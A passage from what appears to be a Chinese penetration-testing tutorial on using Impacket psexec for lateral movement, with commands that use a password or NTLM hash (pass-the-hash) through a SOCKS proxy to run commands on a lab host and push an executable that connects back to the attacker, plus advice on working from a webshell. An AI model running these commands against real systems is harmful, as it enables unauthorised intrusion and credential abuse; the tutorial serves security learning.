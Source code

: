    proxychains python psexec.py rootkit/administrator:admin\!@#45@192.168.3.76 whoami
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008213511658.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
下面使用"-c"参数远程加载可执行程序，使目标主机反向回连。-
execute.exe放到与psexec.exe相同目录。-
首先创建exe可执行文件服务端。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008213525337.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
在socks网络环境下(图中所示socks工具为proxifier)，使用帐户密码对远程主机192.168.3.76执行命令，使用"-c"参数。

    psexec.exe 
    rootkit/administrator:admin!@#45@192.168.3.76 -c execute.exe
    
        

在socks网络环境下(图中所示socks工具为proxifier)，使用NTLM HASH认证对远程主机192.168.3.76执行命令，使用"-c"参数。

    psexec.exe -hashes :DF92E298362E3E180EC0EE7226AFB825 ./administrator@192.168.3.76 -c execute.exe
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008213544735.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
如下图，目标主机已正常回连，由于目标主机是双网卡主机，显示内网ip为另外一块网卡的ip。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008213554781.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
如果执行的命令需要耗费比较长时间，或加载可执行程序，在webshell执行psexec.exe可能会收不到回显信息(webshell执行命令有超时时间)，所以建议把命令执行结果写到一个文件，然后查看文件内容即可。

    psexec.exe -hashes :DF92E298362E3E180EC0EE7226AFB825 ./administrator@192.168.3.76 "netstat -an" >log.txt
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008213606249.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
命令执行回显内容-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008213614215.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
impacket套件内的psexec也与atexec一样，可写脚本批量执行命令。

    https://mp.weixin.qq.com/s?__biz=MzI4MjA1MzkyNA==&mid=2655304734&idx=4&sn=0c49011632308cec35e5d978ff95ed0d&chksm=f02fc055c75849430cba3a3b0a99851959c78fdb966992ddf5274857fe306144650ba0890429&scene=21
    
        

* * *